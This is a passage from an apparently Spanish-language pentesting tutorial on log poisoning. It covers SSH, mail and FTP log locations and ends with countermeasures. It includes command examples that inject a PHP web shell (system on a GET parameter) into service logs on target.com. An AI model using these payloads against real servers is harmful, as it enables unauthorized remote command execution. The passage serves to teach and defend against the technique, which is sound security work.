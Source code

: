 Esto puede ser útil si no tenemos acceso de lectura sobre los logs del servidor.

### Logs de Servicios Adicionales

Dependiendo de los logs sobre los que tengamos acceso de lectura, podemos utilizar técnicas similares en varios logs del sistema:

| Servicio | Ubicación del Log | Técnica de Envenenamiento |
|----------|-------------------|---------------------------|
| **SSH** | `/var/log/sshd.log` | Configurar username a código PHP |
| **Mail** | `/var/log/mail` | Enviar email con código PHP |
| **FTP** | `/var/log/vsftpd.log` | Login con username malicioso |

### Ejemplos de Envenenamiento por Servicio

#### SSH Poisoning
Si el servicio SSH está expuesto y podemos leer sus logs:
```bash
ssh '<?php system($_GET["cmd"]); ?>'@target.com
```

#### Mail Poisoning
Si podemos leer logs de mail:
```bash
echo '<?php system($_GET["cmd"]); ?>' | mail test@target.com
```

#### FTP Poisoning
Si el servicio FTP está expuesto:
```bash
ftp target.com
# Username: <?php system($_GET["cmd"]); ?>
```

---

## Contramedidas y Prevención

### Configuración de Logs
- Configurar permisos restrictivos en archivos de log
- Rotar logs regularmente para reducir su tamaño
- Filtrar y sanitizar datos antes de loggear

### Validación de Entradas
- Validar y sanitizar headers HTTP
- Implementar filtering en User-Agent headers
- Rechazar caracteres especiales en campos loggeados

### Aislamiento de Aplicaciones
- Ejecutar aplicaciones web con usuarios de bajos privilegios
- Restringir acceso de lectura a archivos de log
- Implementar chroot jails cuando sea posible

---